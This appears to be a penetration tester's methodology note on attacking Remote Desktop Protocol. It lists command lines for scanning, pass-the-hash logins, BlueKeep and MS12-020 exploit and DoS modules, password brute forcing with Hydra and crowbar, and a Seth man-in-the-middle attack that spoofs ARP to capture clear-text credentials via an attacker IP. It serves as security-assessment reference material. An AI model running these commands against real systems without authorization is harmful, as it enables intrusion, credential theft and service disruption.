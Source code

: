 # RDP - Methodology

### Overview

Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft,
which provides a user with a graphical interface to connect to another computer
over a network connection.

The user employs RDP client software for this purpose, while the other computer
must run RDP server software.

RDP authentication mechanism rely on Windows local or Active Directory domain
credentials.

RDP may uses Network Level Authentication (NLA, RDP 6.0 and supported initially
in Windows Vista / Windows Server 2008) which requires the connecting user to
authenticate before a session is established with the server and prevents the
use of resources on the server from the load of the graphical login screen.

### Network scan

Nmap can be used to scan the network for RDP services:

```
nmap -v -p 3389 -A -oA nmap_rdp <RANGE | CIDR>
```

### RDP clients

###### Windows

On Windows, the default Microsoft Remote Desktop application
("Connexion Bureau à distance") or the Remote Desktop Manager third party
application can be used as RDP clients.

The Remote Desktop Manager allows for the configuration and storing of
multiples RDP connection (host and authentication information). A Free Edition
is available as well as a commercial grade Enterprise Edition.

###### Linux

On Linux, rdesktop or Remmina (GUI) can be used as RDP clients.

```
rdesktop [options] server[:port]
Remmina
```

### Pass-the-hash

FreeRDP can be used to authenticate using the hash through RDP against hosts
using the Restricted Admin mode feature.

```
xfreerdp /u:<USERNAME> /d:<DOMAIN> /pth:<HASH> /v:<HOST | IP>
```

### Known vulnerabilities

`nmap` can be used to check for the CVE-2012-0002 / MS12-020 exploit.
The `Metasploit`'s `auxiliary/scanner/rdp/cve_2019_0708_bluekeep` module and `rdpscan` can be used to scan for BlueKeep CVE-2019-0708

```
# BlueKeep CVE-2019-0708
msf> use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
# set RHOSTS file:<PATH>
# set THREADS <THREADS_NUMBER>

rdpscan.exe --file E:\Keolis\1-Wales\1-Pentest\hosts\IP.txt

# CVE-2012-0002 / MS12-020
nmap -v -p 3389 --script rdp-vuln-ms12-020 <HOST>
msf> use auxiliary/scanner/rdp/ms12_020_check
```

###### BlueKeep CVE-2019-0708

An heap corruption can occur in the RDP protocol that allows for arbitrary code
execution at the system level pre-authentication.

Microsoft identified the following Windows versions as vulnerable:
  - Windows XP
  - Windows Vista
  - Windows 7
  - Windows Server 2003
  - Windows Server 2008
  - Windows Server 2008 R2

Windows versions newer than Windows 7 and Windows Server 2012 are not vulnerable.

The `Metasploit` module `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` can be
used to exploit the vulnerability. Note that the exploit is not yet polished.

```
msf> use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
```

###### CVE-2012-0002 / MS12-020

The CVE-2012-0002 / MS12-020 vulnerability can be used both to realize a Denial
Of Service and remotely execute code on the target.

A metasploit module is available to realize a DoS of the target:

```
msf> use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
```

As of december 2018, no public proof-of-concept code that results in remote
code execution is available.

### Authentication brute force

The local or Active Directory domain account lockout policies apply
(depending on the type of authentication tried) when connecting with RDP.
Vertical brute forcing is thus not possible.

However, horizontal RDP brute forcing can be used for lateral movement once
an account has been compromised. Indeed, the compromised account may not be an
local Administrator (and thus can not connect through PsExec like tool) but can
be a member of the Remote Desktop Users group.

Patator, Hydra or the crowbar Python Script can be used to brute force RDP
access. Patator and crowbar both support NLA (as of December 2018, Patator does
not support no NLA RDP brute force).

```
python crowbar.py -b rdp (-u <USERNAME | <DOMAIN\\USERNAME> | -U USERNAME_FILE) (-c <PASSWORD> | -C <PASSWORDS_LIST) -s <CIDR>

hydra -t 1 -V -l <USERNAME> (-p <PASSWORD> | -P <PASSWORDS_LIST) rdp://<IP | HOST>
```

### Man-in-the-middle attack

Seth is a tool written in Python and Bash to MitM RDP connections that
attempts to downgrade the connection in order to extract clear text credentials.

Seth can be used regardless if Network Level Authentication (NLA) is enabled
on the RDP host.

Seth will notably:
  - Spoof ARP replies to redirect traffic from the victim host to the attacker
  machine and then to the target RDP server.
  - Configure an iptable rule to reject SYN packet to prevent direct RDP
  authentication.
  - Clone the SSL certificate (only replacing the public key and signature)
  - Block traffic to port 88 to downgrade Kerberos authentication to NTLM.

Note that the user will be presented with a certificate error warning that must
be accepted before the clear text credentials are sent.

In case of a successful attack:

  - Clear text credentials of the user login in are obtained
  - A command can be executed on the targeted host
  - Victim keyboard inputs are retrieved

Usage:

```
# Unless the RDP host is on the same subnet as the victim machine, the last IP address must be that of the gateway.
# The COMMAND is executed on the RDP host by simulating WIN+R
# The COMMAND should not contains special characters (powershell -enc <STRING> can be used)

seth.sh <INTERFACE> <ATTACKER_IP> <VICTIM_IP> <GATEWAY_IP | HOST_IP> [<COMMAND>]
```

### Session Hijacking

If Administrator / SYSTEM privileges could be obtained on a host, RDP sessions
of others users can be hijacked. This could be used to access the
host as the hijacked user through a GUI interface with out knowing its password.  

To hijack RDP session refer to the [Windows] Post Exploitation note.

